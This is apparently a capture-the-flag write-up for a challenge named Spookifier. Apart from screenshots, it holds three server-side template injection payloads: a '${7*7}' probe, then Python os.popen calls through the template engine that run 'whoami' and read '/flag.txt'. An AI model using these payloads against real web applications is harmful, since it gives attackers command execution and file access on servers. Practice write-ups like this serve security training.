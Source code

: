 # Spookifier Write-up

![image](https://github.com/user-attachments/assets/89293205-d861-4bc7-9675-5c8084d5e71f)

![image](https://github.com/user-attachments/assets/d9d81d43-5bad-48c5-b6fb-280cd990252c)

    ${7*7}

![image](https://github.com/user-attachments/assets/8bb65801-d552-4ff5-96f5-a61783b5029f)

    ${self.module.cache.util.os.popen('whoami').read()}

![image](https://github.com/user-attachments/assets/cf815f00-cd0e-431b-9d5a-fc6843806f8f)

    ${self.module.cache.util.os.popen('cat /flag.txt').read()}

![image](https://github.com/user-attachments/assets/d92b9df5-9922-441b-90a4-bfa66a91005a)

